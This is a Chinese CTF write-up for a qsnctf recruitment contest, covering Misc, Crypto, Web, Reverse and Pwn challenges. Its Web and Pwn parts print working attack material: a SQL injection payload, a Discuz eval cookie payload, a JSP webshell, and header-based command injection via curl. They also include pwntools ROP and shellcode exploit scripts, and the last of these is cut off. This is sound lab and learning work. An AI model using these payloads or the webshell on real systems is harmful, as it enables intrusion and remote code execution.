

Misc 签到
下载附件，得到一张二维码。
扫码，然后根据提示“linux”操作系统，直接cat /flag，得到flag。
EasyMisc
下载得到EasyMisc附件，压缩包中有flag.docx
Word打开，发现下方有个换行符。
不排除是字体设置白色前景色了，我们先看看能否选中。
发现选中是可以，但是没有内容。
更改字体颜色，得到此内容。
Ctrl+C好像复制不出来，但是可以复制到微信的聊天框。
再次复制，进行base64解码。
得到了504b 0304 0a00开头的一段16进制内容，应该是一个个压缩包，我们复制出来之后使用010Editor 导入16进制 并保存为文件。
接着就拿到了Flag。
奇怪又不奇怪 下载附件，拿到了一串奇奇怪怪的符号，总感觉很熟悉。
在百度中找到了一篇这样的文章：https://baijiahao.baidu.com/s?id=1748879623460661243&wfr=spider&for=pc
根据对照表的“须弥沙漠文”，得到FLAG MOXIAHJACK，那么flag就是qsnctf{MOXINAHJACK}
做什么题啊来振刀啊 说明：此题目来源于青少年CTF平台投稿。
下载附件，解压。
前面都是没用的东西迷惑人的，删掉。

删完之后还剩2722205行 因式分解 2305 x 1181 编写rgb转图片脚本
得到key2的密码和lsb密码
得到5进制
解密得到flag密码0unzre_1mxmWda
Flag.gif 抽帧拼图
用工具分解会有几张报错 剩下都手截就行了拼成后得到flag
EasySo 下载得到一张图片
颜色好像是相同的又好像是不相同的
图片是GIF，用Photoshop打开，
RGB的16进制吗，应该是十六进制编码。
得到flag为：qsnctf{aapjes}
ScanQR
得到了一张类似于二维码的东西
使用“中国编码”APP扫描得到一串乱码的东西，估计是汉信码的编码和制作时的内容不同。
https://pan.baidu.com/s/17RzBbdSQqCTxAE66on9cOA?pwd=20p6
百度网盘打开，下载。
看似杂乱无章
实则暗藏玄机
根据经验可知
这肯定，又是16进制…
解码得到16进制内容，复制出来，继续用010Editor
242行，有点东西。
导入16进制
一个PNG文件
得到一张二维码图片，定位点补齐即可。
补齐之后，扫描，得到flag
Cookie怎么分
下载附件
得到一个流量包，压缩前156.9MB，这个文件里绝对不简单。
毫无软用的信息
并且填充了0000空数据
最后面还有一个jpg图片
文件大小不对，可能是因为垃圾数据填充导致的。
在流量包中找到一串Base64：
http://192.168.31.158/index.php?flag=cXNuY3Rme2I1NTEyOTQ2LWQ3YWMt
得到了一段Flag的前半段
qsnctf{b5512946-d7ac-
foremost跑一下，看看能不能遇到爱。
有文件析出
可以由此看出，这应该是一个Python的HTTP Server模块，然后流量包里的大部分内容都是在这里的。
也拿到了很多的jpg图像，大小不一，但是foremost已经帮我们找到了其中的压缩包。
第一个压缩包打开出错，我们看第二个，依然出错。
怀疑是工具问题，使用Wireshark导出对象。
使用binwalk分离图片内容
得到压缩包
再分离别的图片
除了最大的Cookie图片，其他两个小的Cookie都出来了压缩包。
得到两个txt
两个txt都有16进制的数据，直接使用010Editor保存为文件。
打开压缩包，都提示要密码，先看看是不是伪加密。
base_00是伪加密
base_11是真加密
得到密码20221108
base_0有个CRC问题，应该是图片高度或者宽度被修改了
base_0和base_1的高度宽度应该都是一样的，因为是等分图片。
bsae_0的高度位是01 BB
base_1的是01 FB
修改base_0的高度为01 FB 保存
得到了完整的图片
接着在Photoshop中创建一个高度为507，宽度为829+829的图片。
底图宽度有些不够，小失误，调整一下画布大小
我这里调整了2440，明显过宽了，不过咱们可以裁剪。
使用orc脚本（也可以用微信，新版本电脑微信嗷嗷好用，不过需要截取一小段一小段识别），读取内容
1 2 3 4 5 6 7 8 9 from PIL import Imageimport pytesseractfile_path = "test.png" text=pytesseract.image_to_string(Image.open (file_path),lang='chi_sim' ) print (text)
保存到txt中，然后挑前面一些进行解码
得到了PNG的文件头。
Base64转文件
1 2 3 4 5 6 7 8 9 # coding=utf-8 import os, base64 img_str = 'base64'# 替换你的base64到这里 img_data = base64.b64decode(img_str)# 注意：如果是"data:image/jpg:base64,"，那你保存的就要以png格式，如果是"data:image/png:base64,"那你保存的时候就以jpg格式。 with open('001.png', 'wb') as f: f.write(img_data) print 'successful'
得到了flag后半段。
拼接：
qsnctf{b5512946-d7ac-45c9-afd0-a3f28ba547ea}
吉他
下载附件，得到压缩包，但是提示需要输入密码。
使用010Editor打开，发现好像又是伪加密，修改加密位。
将0h-6d的09修改为00
有一个加密的7zip文件，有一个吉他.aac
只能播放6秒，所以文件肯定有很多的填充数据。
7z压缩包的密码，经过测试，可能是Guitar、吉他、jita等，最终密码是jita。
在吉他.jpg文件末尾，找到很像flag的东西，可能是一部分。
46dc-823a-9c33565c6bde}
吉他.acc的末尾，有一段flag开头的base64
嗯….尬住
吉他.jpg，通过steghide，密码guitar得到flag.txt
得到-049f-
应该是flag中段
在acc文件中，有众多qsnctf开头的内容，结合我们刚刚获取到的内容如下：
qnsctf{74e0df3c–049f-46dc-823a-9c33565c6bde}
可能是防止直接搜索qsn，所以翻转了qsn为qns，这里赛事公告有说flag是qsnctf开头，所以改正过来。
由于uuid是qsnctf{74e0df3c-049f-46dc-823a-9c33565c6bde}，删除多余的横线，得到flag。
Crypto Snake
题目描述说这玩意是个象形题，Snake，也就是蛇，那么flag可能是像蛇一样
打开文件，是个表格：
7
1
7
3
6
E
6
3
7
4
6
6
7
B
3
3
3
9
3
9
6
2
3
1
3
0
D
2
2
6
1
3
9
3
4
3
D
2
9
3
6
6
3
3
3
6
D
2
4
6
3
6
6
4
6
6
6
2
3
5
6
4
3
0
3
3
6
5
3
4
6
3
6
4
3
0
7
D
71736E63
那么第一行应该就是hex了
71 73 6E 63 74 66 7B 33 39 39 62 31 30 得到 qsnctf{399b10
第二行，D2 26 13得到的是
尝试63 64 2D 63 33 66 得到 cd-c3f
那么第二行就是63 64 2D 63 33 66 39 2D 34 39 31 62 2D 也就是 cd-c3f9-491b-
按照之前的顺序，那第三行应该是顺序的 64 66 62 35 64 30 33 65 34 63 64 30 7D 也就是 dfb5d03e4cd0}
flag为qsnctf{399b10cd-c3f9-491b-dfb5d03e4cd0}
82.83.65 这题目名称挺奇怪的，但是应该是ASCII对应的RSA。
题目描述中的欧拉函数，又证明了这一点。直接下载附件，然后看看是什么东西吧。
得到了一个py文件，内容如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 import gmpy2import libnumfrom Crypto.Util.number import *from binascii import a2b_hex,b2a_hexflag = b"*********************" p = 262248800182277040650192055439906580479 q = 262854994239322828547925595487519915551 e = 65533 n = p*q d = gmpy2.invert(e,(p-1 )*(q-1 )) c = pow (int (b2a_hex(flag),16 ),e,n) print (c)
题目给了我们p和q，e是65533，那么n其实也给了我们，只需要欧拉求d，然后pow求c，接着通过已知的e、n、d和c得到m即可得到Flag。
那么直接来写一下脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 import gmpy2import libnumfrom Crypto.Util.number import *from binascii import a2b_hex,b2a_hexflag = "" p = 262248800182277040650192055439906580479 q = 262854994239322828547925595487519915551 e = 65533 n = p*q d = gmpy2.invert(e,(p-1 )*(q-1 )) c = pow (int (b2a_hex(flag),16 ),e,n) print cc = 27565231154623519221597938803435789010285480123476977081867877272451638645710 c = m^e % n m = c^d % n m = pow (c,d,n) print (long_to_bytes(m))
CryptoSOS
emm 下载附件
看着确实很像flag，但是肯定交不上去，这肯定是被操作过了的。
试试使用平台的CyberChef看看
自动没解出来，多少是带点科技与狠活
这种东西，要么凯撒、仿射，反正，基本上都是移位作业或者替代作业，并且字符表里没有{}两个符号。那么我们纯猜仿射。
当a和b都等于23时，flag为qsnctf{d990d395-f7b7-4eed-b084-a2f4590db34e}
提交，正确！
Baby RSA
下载附件，得到了attachment.zip，包含一个encode.py和hint.txt
得到了p、n、c
pow函数需要的东西是e、n、m求c，那么我们c有了，但是没有e，这就很难受了。
c是经过Base64编码后倒序（翻转）的，我们需要翻转后Bas64解码，得到c
但是脚本中的e是随机数，从20000-50000随机取。
我们需要通过循环，然后解密，判断哪个解密得到的是flag格式“qsnctf{}”
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 import base64import gmpy2p=185392927331398754034773152474166007097 n=33047182186833739970146873552408478599841138065558351794468963853252513446871 c="=gzMxUDM5gTN1UDN5kzNwYzM5QjNyEDOwEjN0YzM3gTN1ATM2ITO1gDN0QTNzEDMxcDO5YDM0UjN0AjN0EzM4gzM4YzM4gTO3ITOzAjM" print (base64.b64decode(c[::-1 ]))cipher=int (base64.b64decode(c[::-1 ])) q=n//p phi_n=(p-1 )*(q-1 ) for e in range (20000 ,50000 ): if (gmpy2.gcd(e,phi_n)==1 ): d=gmpy2.invert(e,phi_n) m=pow (cipher,d,n) flag1=hex (m)[2 :] if (len (str (flag1))%2 ==1 ): flag1='0' +flag1 flag2=flag1.decode('hex' ) if ('qsnctf{' in flag2 and '}' in flag2): print (flag2)
得到Flag
What
下载附件，得到一个很像flag的字符和key
常用的使用key解密的加密方法其实不多，我们多尝试几次
因为qsnctf后包含了{}这两个符号，所以这个加密大概率不支持加密{}这样的符号。
维吉尼亚其实就是一个很好的例子，我们先试试。
由于维吉尼亚的key是不支持符号和数字的
并且key后面是三个***，可能是3个字符的，我们试试qsn、rkl这样的显眼的字符
维吉尼亚，得到的结果是vigenerciphersoeasy，flag那就是qsnctf{vigenerciphersoeasy}
奇怪又奇怪
得到一串奇怪的文本，很像Base64
1 U2FsdGVkX18D7HXP+Tof5LYll5tcnz0tq5LlVtJG4H41B0qzg1l8Y7PSGGr2o30TljuERiFrMKtTWsTH/Laj54WuZwvSg1nVjs2ZZ/JJD95ZUAth19jjdljgbgBxH81/IHhlpGKB7CP2r1kmxH1dtddVj5nJSU0LPXiB58w+X2TgrbCarFOXE5AlUE4dThNRSf+kPMmUims=
结果很像Base64，但是又解不出来了，那么试试看DES、AES或者RC4
根据之前的题目，key可能是qsn、qsnctf、123456这样的东西
DES解密，得到了一串密文
1 U2FsdGVkX1/CYFPc68XNdZ+W6O6kIEcemoV7iDpHmrkoh8Vu2R1/Wkp2fJw6p/PYjfcnNha5tKhh+E4ahhij1xvk8kwf7sc5+ubQrzmf4PahNkgEbXsTKQVpe2JdQ21m
RC4又得到了类似的密文
1 U2FsdGVkX1/pJehviBzes9aK66qycToTUvJmoaRXmzM6exiAU6xYY8bJFvHo+9sIyfoLOhbApBG78OAA
再次RC4解密，得到Flag：qsnctf{b97c2a6d-c8a2-4bed-bbb9-e845ec58844f}
BoomThis
下载附件，得到如下内容：
提示“密钥加密的块算法”
应该非常关键
百度之后，得到DES是一种使用密钥加密的块算法。
那么qsnctf-***可能就是密钥了
尝试了qsnctf-123、qsnctf-abc、qsnctf-2022这样的类似组合好像都不对
其实也可能是日期时间
测试了可能是出题时间的日期，得到Flag
Web 签到小能手
启动容器，打开。
提示flag就在这里，并且题目的提示说明这里是index.php，并且flag就在文件的变量中。
访问index.php.bak，打开，应该就有flag了。
由于docker容器不支持运行Windows，所以无法给大家真实的.bak备份文件，只能手敲了。
Flag：qsnctf{14045401-c067-42bc-903a-e0a64b611c75}
小镇做题家
小镇做题家，可能有点爱学习，网站都不写了。
dirsearch一把梭
我们看看robots.txt有什么东西
直接访问/GAME/目录会403，我们试试访问index.php或者index.html
为了截图，竟然失败了qwq
一个贪吃蛇，真的不想做了
看了一下源码，发现主要的是snake.js
这里有些BASE64的内容
恭喜你，题目的关键在于/GAME/f14g_in_there_hha/index.php中！
那么，首先给他一个?payload=a.txt
那我们试试访问a.txt是否有文件
这里应该是”什么也没有“
如果传入了空格，会提示我们不要输入空格哦
如果输入/flag，没有回显，可能是flag是不正确的
其实我们可以直接用通配符，因为毕竟这里本身是cat语句
Payload如下
1 /GAME/f14g_in_there_hha/index.php?payload=/f*
开胃菜 这题，启动完成
怎么说？考了个限定字符rce？
但是如果是限定字符rce，这里应该是 if(isset($_GET[1])&&strlen($_GET[1])<=5)
而不是这样写，这样写的话，if里得到的永远不会是false、和0，所以if永远成立。
因为Strlen只要有传入值，就会有返回数值，只要是非0，if就成功。
所以这题可能是在迷惑我们
直接cat /flag
qsnctf{1546df9f-9991-48fe-a42b-2a3ef69186a2}
Queen
挺好看的一个登陆页面，看看有什么东西是暗藏玄机的？
admin,admin登陆
提示我IP不是管理员IP
好办，那应该是XFF，我们直接启动Burp
XFF之后，有个302跳转
1 2 3 4 5 6 7 8 HTTP/1.1 302 Found Content-Type: text/html; charset=UTF-8 Date: Mon, 14 Nov 2022 14:17:30 GMT Location: /check.php?data=dXNlcjphZG1pbnxwYXNzOmFkbWlu Server: nginx/1.18.0 X-Powered-By: PHP/7.3.22 Connection: close Content-Length: 0
跳转到/check.php?data=dXNlcjphZG1pbnxwYXNzOmFkbWlu
后面的base64内容为：
user:admin|pass:admin
可以尝试手注
但是也可以试试sqlmap能不能搞出来
先burp抓包数据包
这里是已经附带xff的哦！
因为标靶302重定向了另一个文件
最终注入成功
payload为
1 username=admin&password=admin'+(SELECT 0x47694146 WHERE 9613=9613 AND (SELECT 6883 FROM (SELECT(SLEEP(5)))IHCQ))+'
查询到数据库中的库有这些
sqlmap语句为sqlmap -r 桌面/data.txt -D sql --dump
flag为qsnctf{d8d3117d-d448-469f-ba60-45e222d634ab}
Where 下发容器
好像前端只是一个单独的html静态页面，我们先扫一下站点目录。
诶?扫描发现这些目录：admin、login、vendor还有一些文件：flag.php、composer.json、test.php等
我们先挨个排查一下
想着会不会是出题人留下的蛛丝马迹，哈哈看来不是了
诶？假的小皮面板吗？
终于找到了一些有用的，composer.json标明这是一套phpunit的系统，并且版本是5.6.2，这下就可以试试公开漏洞了
admin页面是xx省统计局大数据平台的后台？？
但是貌似是没有什么用的，验证码都不变诶。
正好，phpunit远程代码执行漏洞是包含5.6.2的phpunit，那么我们试试看。
向/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php发送POST请求执行php代码
哦对了，因为定义了环境变量，所以PHPInfo的Flag是无法提交的
Discuz
打开题目环境一看，诶？Discuz 3.4X?
Wappalyzer也给出了是Discuz! X的信息
goby扫出来的却是Discuz7.x或6.x
并且存在一个RCE的洞
并且验证也是成功的
1 PLEASE SET COOKIE:"GLOBALS[_DCACHE][ smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval($_POST[c])%3B;" and access "/viewthread.php?tid=10" and use antsword to connect then you get webshell
也就是说，我们需要访问/viewthread.php?tid=10页面，并且将cookie设置为GLOBALS[_DCACHE][ smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval($_POST[c])%3B;接着就可以在蚁剑链接了。
那么我们看到replacearray后面就等于执行的命令，我们此刻不需要提权，所以直接phpinfo();或者cat flag即可。
休息时间
启动环境，上Goby，扫描到了GoAhead
GoAhead影响比较大的漏洞应该是CVE-2017-17562和CVE-2021-42342一个是命令执行，另一个则是环境变量注入。
威睿森通信公司，结合这个登陆页面，应该是个路由器。
（中间吃了个饭，qwq）
访问/cgi-bin/index/，有“Example”。
使用公开的CVE-2021-42342脚本，执行内容如上
漏洞存在，那么我们直接反弹shell
nc收到了反弹的shell
轻轻松松搞定Flag
Weblogic 启动环境
这个页面是正常的，没有问题
dirsearch一下，发现/console就是这个网站的后台了，会302到/console/login/LoginForm.jsp
确实是Weblogic无疑了，我们试试弱口令能否登陆
登陆成功
可以通过【部署】、【安装】尝试上载文件。
选择“安装”后，点击蓝色的”上载文件“
这显然是一个好方法
编写一个jsp木马，打包到war文件中
上载成功
接着一直下一步
这里不上传一句话木马，也可以利用vulhub\weblogic\weak_password\web中的hello.war，其中的file.jsp是配置了任意文件读取的
可以直接访问/hello/file.jsp?path=/flag得到flag。
当然，上传JSP木马用蚁剑得到Shell也是个好办法
使用的Shell如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 <%! class U extends ClassLoader { U (ClassLoader c ) { super (c); } public Class g (byte[] b ) { return super .defineClass (b, 0 , b.length ); } } public byte[] base64Decode (String str) throws Exception { try { Class clazz = Class .forName ("sun.misc.BASE64Decoder" ); return (byte[]) clazz.getMethod ("decodeBuffer" , String .class ).invoke (clazz.newInstance (), str); } catch (Exception e) { Class clazz = Class .forName ("java.util.Base64" ); Object decoder = clazz.getMethod ("getDecoder" ).invoke (null ); return (byte[]) decoder.getClass ().getMethod ("decode" , String .class ).invoke (decoder, str); } } %> <% String cls = request.getParameter ("passwd" ); if (cls != null ) { new U (this .getClass ().getClassLoader ()).g (base64Decode (cls)).newInstance ().equals (pageContext); } %>
密码为passwd
Reverse Check
下载附件直接扔IDA看伪代码
首先要输入一个值，并判断是否等于49，如果等于49就直接进入Check2
Check2中，输入一个值等于256*256，这里可能是IDA的问题，判断的是0x10000。
接着进入Check3
我们需要输入ASCII等于Y的数字，那么也就是89
接着会让我们输入flag，并与v1进行异或比较
根据
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 v1[0] = 113; v1[1] = 114; v1[2] = 108; v1[3] = 96; v1[4] = 112; v1[5] = 99; v1[6] = 125; v1[7] = 74; v1[8] = 56; v1[9] = 113; v1[10] = 59; v1[11] = 101; v1[12] = 83; v1[13] = 65; v1[14] = 97; v1[15] = 121; v1[16] = 117; v1[17] = 78; v1[18] = 107; v1[19] = 124; v1[20] = 97; v1[21] = 52; v1[22] = 107; for ( i = 0; i <= 23; ++i ) v1[i + 24] = i ^ v1[i];
解密脚本应如下编写
1 2 3 4 5 6 7 8 9 10 11 12 13 14 #include <stdio.h> int main(){ int flag[]={0x71,0x72,0x6c,0x60,0x70,0x63,0x7d,0x4a,0x38,0x71,0x3b,0x65,0x53,0x41,0x61,0x79,0x75,0x4e,0x6b,0x7c,0x61,0x34,0x6b}; int b[23]; int c[23]; int i,i0; int good; for(i = 0; i <= 23; ++i){ b[i] = i^flag[i]; printf("%c",b[i]); } return 0; }
LookThis 这道题目，其实有类似的题目出现在“第五届浙江省大学生网络与信息安全竞赛”
说白了，没有逆向算法的过程，只需要找资源文件
而这道题目使用的是Android12的SDK，并且使用了Kotlin，所以在前面逆向可能很多工具不能用。
压缩包打开，/res/mipmap-xhdpi-v4/ic_lanchers.png就是flag了。
EasyBase 下载附件，托IDA看伪代码
这里玩了个梗：“击败龙的十八 掌击”
很典型的Base64过程
233行是Base64，但是上面204行还有个翻转，还有一个rot18
大概算法我们差不多知道了
首先rot18这个很像base64翻转的东西
然后再文本倒序一次
倒序完成之后再base64解码
接着再倒序一次，就很像flag了
紧接着，再ROT18
qsnctf{af3036f5-2d87-4c75-a51b-2f47e2611312}
得到Flag
MD5
因为程序应该是易语言的，IDA在sub_4010A1中，对传入的值MD5后与“a4241bbfc6cab40e5b36b7a98c8621ed“对比。
并且根据题目提示：
flag就是md5的内容，格式为qsnctf{xxxxxxx},最长字符7个，除了qsnctf和{}全是数字哦。
我们可以用Python编写一个爆破脚本
1 2 3 4 5 6 7 8 9 10 import hashlibf=lambda k:'qsnctf{' +str (k)+"}" k=1000000 while 1 : m = hashlib.md5(f(k).encode()) if m.hexdigest()=="a4241bbfc6cab40e5b36b7a98c8621ed" : print (f(k)) break print (k) k+=1
得到Flag为qsnctf{5201314}
当然更好的写法还有这样的
1 2 3 4 5 6 import hashlibfor k in range (1000000 ,9999999 ): m = hashlib.md5(('qsnctf{' +str (k)+'}' ).encode()) if m.hexdigest()=="a4241bbfc6cab40e5b36b7a98c8621ed" : print ('qsnctf{' +str (k)+'}' ) break
This..is 这道题可谓是非常有意思，一道Re题还需要Web环境
下载附件，打开程序
这个提示已经告诉我们了，我们的操作需要在Check后输入口令，并且发送和保存口令是不一样的。
应该是在URL中填充启动的容器链接，然后在Check中输入密码后保存这个URL。
最下方有个Shell，可能是考察了Web的命令执行。
IDA的字符串窗口，可以很好的告诉我们这里大概应该需要填充什么。
访问容器页面，是这样的
Check密码为123456的时候，数据被成功保存。
题目描述中有说用户名是admin，密码是qsnctf2022_reverse
发送的时候，提示我密码错误，也就是前面提到的保存密码和发送密码是不一样的。
那么尝试一下QSNCTF
显示成功发送
那么shell中是空的，所以data没有内容
Shell中写123，那么data中回显的也是123，这和字符串窗口中的Shell:echo关联很大。
中间有个base64的东西，我们解码看看
Moxin1314Loveyou
既然他在这些请求关键字之间，那么很有可能这里是一个鉴权的关键。
不难发现，从F38到F8A应该是HTTP请求发送的内容，那么上面的是过滤字符，下面是信息框内容。
我们现在需要给一个HTTP请求，请求内容如下：
1 2 3 4 5 6 请求方式：GET 请求地址：题目地址/?username=admin&password=qsnctf2022_reverse 请求体包含： Shell:echo 123456 Authorization:Moxin1314Loveyou X-Forwarded-For:127.0.0.1
那么我们一个CURL就可以解决，如果不习惯的话可以用Hackbar或者Burpsuite。
接着只需要修改Shell后的内容，就可以完成命令执行。
我们需要指定body
得到Flag
最终Payload如下：
1 curl "http://a3db934d-1587-495b-9704-e6ca3be3cc11.recruit.qsnctf.com:8080/?username=admin&password=qsnctf2022_reverse" -H "Shell:cat /flag" -H "Authorization:Moxin1314Loveyou"
Tea 下载附件扔64IDA
根据这里的几个循环运算和encrypt写解密脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 #include <bits/stdc++.h> #include <windows.h> using namespace std;DWORD str2[32 ] = { 46 , 162 , 154 , 93 , 216 , 119 , 117 , 77 , 224 , 124 , 80 , 69 , 114 , 165 , 248 , 93 , 109 , 14 , 98 , 20 , 102 , 95 , 216 , 91 , 138 , 93 , 196 , 200 , 116 , 32 , 253 , 101 }; unsigned int key[4 ]={1 ,2 ,3 ,4 };void decrypt (unsigned int *A,unsigned int *B) int j; unsigned int v0 = A[0 ],v1 = A[1 ],delta = 221492336 ,sum = delta * 32 ; for (j=0 ;j<32 ;j++){ v1 -= (v0 + sum) ^ (B[2 ] + 16 * v0) ^ ((v0 >> 5 ) + B[3 ]); v0 -= (v1 + sum) ^ (*B + 16 * v1) ^ ((v1 >> 5 ) + B[1 ]); sum -= delta; } A[0 ] = v0; A[1 ] = v1; } void encrypt (unsigned int *a1, unsigned int *a2) int i; int v4; unsigned int v5; unsigned int v6; v6 = *a1; v5 = a1[1 ]; v4 = 0 ; for ( i = 0 ; i <= 31 ; ++i ) { v4 += 221492336 ; v6 += (v5 + v4) ^ (*a2 + 16 * v5) ^ ((v5 >> 5 ) + a2[1 ]); v5 += (v6 + v4) ^ (a2[2 ] + 16 * v6) ^ ((v6 >> 5 ) + a2[3 ]); } *a1 = v6; a1[1 ] = v5; } unsigned int v4[3 ];int main () for ( int i = 24 ; i >= 0 ; i -= 8 ) { for (int j = 0 ; j <= 1 ; ++j ) { v4[j]=0 ; for (int k = 3 ; k >=0 ; --k ) { v4[j] = v4[j] << 8 ; v4[j] += str2[4 * j + i + k]; } } cout<<v4[0 ]<<" " <<v4[1 ]<<"\n" ; decrypt (&v4[0 ],key); for (int j = 0 ; j <= 1 ; ++j ) { for (int k = 0 ; k <= 3 ; ++k ) { str2[4 * j + i + k]=v4[j] ; v4[j] = v4[j] >> 8 ; } } } for (int i=0 ;i<32 ;i++) cout<<char (str2[i]); return 0 ; }
解铃还须系铃人 程序32位，直接放到IDA32。但是ExeinfoPE查询到这是来自于“易语言”的程序，就不能再常规的跟踪main函数等了。
OD打开，发现调试的时候会报错，疑似是加了反调试等东西，我们通过ESP绕过，顺便脱个小混淆。
再Dump出文件。
说真的这种题貌似使用Ollydbg做题更刺激，但是IDA还是比较通用的。
打开程序提示了Flag Code的内容，我们尝试Shift + F12
找到了箭头所指的位置
跟到这里，然后我们看看这块代码是干什么用的。
(上图截图有点失误，实际上40121B是一个取随机字符的过程)
这是程序的加密过程
Int a1是取得随机数值
123456疑似是个密钥
通过这里写相关解密内容
经常用易语言的，或许已经知道这是精易语言模块里的默认算法了。
将Flag Code解密
得到flag为flag{m0s1n_w0d1sh3n}
Pwn game
stackoverflow
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 from pwn import *from LibcSearcher import *from pwncli import ShellcodeMallcontext.terminal = ['tmux' , 'split' , '-h' ] context.log_level = 'debug' context.os = 'linux' context.arch = 'amd64' binary = './pwn' ip = 'recruit.qsnctf.com' port = 10067 gs = ''' b *0x4012fe ''' sh = remote(ip, port) elf = ELF(binary) libc = elf.libc def ru (x, drop=False ): return sh.recvuntil(x, drop)def sn (x ): return sh.send(x)def rl (): return sh.recvline()def sl (x ): return sh.sendline(x)def rv (x ): return sh.recv(x)def sa (a, b ): return sh.sendafter(a, b)def sla (a, b ): return sh.sendlineafter(a, b)def lg (a, b ): return print ("\033[1;35m{} ==> {}\033[0m" .format ((a), b))def int2bytes (num ): return str (num).encode('utf-8' ) def malloc (size, content ): sla() def edit (id , content sla() def free (id sla() def show (id sla() ''' 0x0000000000401393: pop rdi; ret; 0x0000000000401391: pop rsi; pop r15; ret; 0x000000000040101a: ret; ''' pop_rdi = 0x0000000000401393 pop_rsi_r15 = 0x0000000000401391 ret = 0x000000000040101a sla(b'Do you know who first discovered the stack overflow' , b'a' * 0x58 ) rl() rl() canary = u64(rv(7 ).rjust(8 , b'\x00' )) lg('canary' , hex (canary)) sla(b'leave your name:' , b'b' * 7 * 8 + p64(canary) + p64(0xdeadbeef ) + p64(ret) + p64(pop_rdi) + p64(1 ) + p64(pop_rsi_r15) + p64(elf.got['write' ]) + p64(0 ) + p64(elf.plt['write' ]) + p64(elf.sym['func' ])) write_addr = u64(ru(b'\x7f' )[-6 :].ljust(8 , b'\x00' )) lg('write_addr' , hex (write_addr)) libc.address = write_addr - libc.sym['write' ] sys_addr = libc.sym['system' ] bin_sh = next (libc.search(b'/bin/sh' )) sl(b'a' ) sla(b'leave your name:' , b'b' * 7 * 8 + p64(canary) + p64(0xdeadbeef ) + p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(sys_addr) + p64(elf.sym['func' ])) sh.interactive()
ssssssn
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 from pwn import *from LibcSearcher import *from pwncli import ShellcodeMallcontext.terminal = ['tmux' , 'split' , '-h' ] context.log_level = 'debug' context.os = 'linux' context.arch = 'amd64' binary = './pwn' ip = 'recruit.qsnctf.com' port = 10087 gs = ''' b *$rebase(0x13b7) ''' sh = remote(ip, port) elf = ELF(binary) libc = elf.libc def ru (x, drop=False ): return sh.recvuntil(x, drop)def sn (x ): return sh.send(x)def rl (): return sh.recvline()def sl (x ): return sh.sendline(x)def rv (x ): return sh.recv(x)def sa (a, b ): return sh.sendafter(a, b)def sla (a, b ): return sh.sendlineafter(a, b)def lg (a, b ): return print ("\033[1;35m{} ==> {}\033[0m" .format ((a), b))def int2bytes (num ): return str (num).encode('utf-8' ) def malloc (size, content ): sla() def edit (id , content sla() def free (id sla() def show (id sla() sc = ''' xor rax, rax mov rdx, 1000 syscall ''' orw = shellcraft.open ('./flag' ) orw += shellcraft.read('rax' , 0x10100 , 0x40 ) orw += shellcraft.write(1 , 0x10100 , 0x40 ) sla(b'you can input only 13 messages:\n' , asm(sc)) sl(b'a' * len (asm(sc)) + asm(orw)) sh.interactive()
animal 一个c++的程序
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 from pwn import *from LibcSearcher import *from pwncli import ShellcodeMallcontext.terminal = ['tmux' , 'split' , '-h' ] context.log_level = 'debug' context.os = 'linux' context.arch = 'amd64' binary = './pwn' ip = 'recruit.qsnctf.com' port = 10085 gs = ''' b getAnimal ''' sh = remote(ip, port) elf = ELF(binary) libc = elf.libc def ru (x, drop=False ): return sh.recvuntil(x, drop)def sn (x ): return sh.send(x)def rl (): return sh.recvline()def sl (x ): return sh.sendline(x)def rv (x ): return 